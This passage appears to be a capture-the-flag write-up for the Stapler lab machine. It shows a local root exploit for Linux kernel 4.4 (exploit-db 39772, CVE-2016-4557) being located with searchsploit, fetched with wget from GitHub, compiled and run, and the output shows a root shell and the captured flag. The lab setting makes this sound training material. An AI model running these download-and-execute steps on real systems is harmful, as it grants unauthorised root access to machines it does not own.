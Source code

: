 
```bash
$ searchsploit -m linux/local/39772.txt                                            
  Exploit: Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation
      URL: https://www.exploit-db.com/exploits/39772                                                                 
     Path: /usr/share/exploitdb/exploits/linux/local/39772.txt                                                       
File Type: C source, ASCII text, with CRLF line terminators
                                                          
Copied to: /mnt/hgfs/shared/Stapler/39772.txt 
```

If we take a look at `39772.txt`, we see that there is a way to exploit the kernel which can lead us to code execution by root.

Steps to reproduce on the target machine:

```bash
$ cd /tmp/
$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
$ unzip 39772.zip
$ cd 39772/
$ tar xvf exploit.tar
$ cd ebpf_mapfd_doubleput_exploit
$ chmod +x compile.sh
$ ./compile.sh 
$ ./doubleput
./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@red:/tmp/39772/ebpf_mapfd_doubleput_exploit# 
```

___

- Final flag:

```bash
root@red:~# cat flag.txt
cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

___

## Useful links

- [exploitDB - 39772](https://www.exploit-db.com/exploits/39772)
- [CVE-2016-4557](https://nvd.nist.gov/vuln/detail/CVE-2016-4557)
- [Exploit Database's Binary Exploits](https://github.com/offensive-security/exploitdb-bin-sploits/)